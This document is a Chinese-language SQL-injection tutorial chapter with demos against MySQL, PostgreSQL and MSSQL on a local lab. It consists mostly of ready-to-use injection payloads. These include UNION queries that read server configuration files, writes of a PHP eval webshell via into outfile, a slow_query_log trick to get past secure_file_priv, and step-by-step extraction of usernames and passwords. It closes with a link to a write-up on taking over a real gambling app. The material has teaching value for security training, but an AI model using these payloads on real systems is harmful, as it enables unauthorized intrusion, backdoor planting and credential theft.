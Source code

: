 # 3.8 SQL注入（二）

## 3.8.1 SQL注入-MySQL数据库

[漏洞原理篇---数据库注入攻击(Mysql) - 1mg0 - 博客园 (cnblogs.com)](https://www.cnblogs.com/lmg0/p/12920147.html)

## 3.8.2 SQL注入-MSSQL数据库

[手工注入——sql server (mssql)注入实战和分析 - 小艾搞安全 - 博客园 (cnblogs.com)](https://www.cnblogs.com/lxfweb/p/12675023.html)

## 3.8.3 SQL注入-PostgreSQL数据库

[PostGresql 注入知识汇总 - 一粒砂子 - 博客园 (cnblogs.com)](https://www.cnblogs.com/yilishazi/p/14710349.html)

## 3.8.4 演示案例

### 3.8.4.1 MySQL-root高权限读写注入

决定：连接的数据库用户
-读取文件：
UNION SELECT 1,load_file('d:/w.txt'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303261-293150066.png)

- 数据库中正常读取文件：select load_file('d:/www.txt');

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302319-261252932.png)

-写入文件：
UNION SELECT 1,'xxxx',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'd:/www.txt'
数据库写文件：select 'xxx' into outfile 'd:/1.txt';

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302421-603274635.png)

-路径获取：phpinfo,报错,字典等
[mysql 注入 获取路径_51CTO博客](https://blog.51cto.com/topic/mysql-zhuru-huoqulujing.html)

读取关键文件，可以在搜索关键函数等
读取关键配置文件：http://127.0.0.1:8081/web/mysql/news.php?id=1 UNION SELECT 1,load_file('D:\\phpstudy_pro\\WWW\\web\\mysql\\config\\conn.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302510-1434426546.png)

- Phpinfo :搜索语法：inurl:phpinfo

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302859-1012387135.png)

写入后门代码：
http://127.0.0.1:8081/web/mysql/news.php
?id=1 UNION SELECT 1,'<?php eval($_POST['x']);?>',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'D:\\phpstudy_pro\\WWW\\web\\mysql\\3.php'

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303162-1219520047.png)

-无法写入：secure_file_priv 突破 v突破 注入中需要支持SQL执行环境，没有就需要借助
secure_file_priv 会限制读写，如果有限制，则意味着只能在该盘符上进行操作。
phpmyadmin 或能够直接连上对方数据库进行绕过，或者支持堆叠注入。
set global slow_query_log=1;
set global slow_query_log_file='shell路径';
select '<?php eval($_POST[A]);?>' or SLEEP(11);
访问shell路径，连接后门。

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303177-397806947.png)

### 3.8.4.2 postgreSQL-高权限读写注入

-测列数：
order by 4
and 1=2 union select null,null,null,null
-测显位：第2，3
and 1=2 union select 'null',null,null,null 错误
and 1=2 union select null,'null',null,null 正常
and 1=2 union select null,null,'null',null 正常
and 1=2 union select null,null,null,'null' 错误

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132302842-1289601990.png)

-获取信息：
and 1=2 UNION SELECT null,version(),null,null
and 1=2 UNION SELECT null,current_user,null,null

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303093-525659061.png)

and 1=2 union select null,current_database(),null,null

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303332-1002270372.png)

-获取数据库名：
and 1=2 union select null,string_agg(datname,','),null,null from pg_database

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303063-1250319251.png)

-获取表名：
1、and 1=2 union select null,string_agg(tablename,','),null,null from pg_tables where schemaname='public'
2、and 1=2 union select null,string_agg(relname,','),null,null from pg_stat_user_tables

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303312-875727404.png)

-获取列名：
and 1=2 union select null,string_agg(column_name,','),null,null from information_schema.columns where table_name='reg_users'

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303879-1447463856.png)

-获取数据：
and 1=2 union select null,string_agg(name,','),string_agg(password,','),null from reg_users

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303162-984439264.png)

参考：[postgresql注入 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/249371.html)
-补充-获取dba用户（同样在DBA用户下，是可以进行文件读写的）：
and 1=2 union select null,string_agg(usename,','),null,null FROM pg_user WHERE usesuper IS TRUE

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303826-1023335221.png)

### 3.8.4.3 MSSQL-高权限读写执行注入

-测列数：
order by 4
and 1=2 union all select null,null,null,null
-测显位：
and 1=2 union all select null,1,null,null
and 1=2 union all select null,null,'s',null

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303651-1887832285.png)

-获取信息：
@@version 获取版本信息

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132303918-1241656079.png)

db_name() 当前数据库名字
user、system_user,current_user,user_name 获取当前用户名

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304176-1498498150.png)

@@SERVERNAME 获取服务器主机信息

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304311-619414573.png)

and 1=2 union all select null,db_name(),null,null
-获取表名：
and 1=2 union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u'),null,null
union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u' and name not in ('manage')),null,null

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304328-724088393.png)

-获取列名：
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),1) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),2) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),3) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),4) from sysobjects),null,null

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132304355-541134119.png)

• -获取数据：
and 1=2 union all select null,username, password ,null from manage

### 3.8.4.4 某违法赌博登录框注入

[【渗透实战系列】| 1 -一次对跨境赌博类APP的渗透实战（getshell并获得全部数据） - 网安客](https://www.wanganke.com/web/article/show/115)




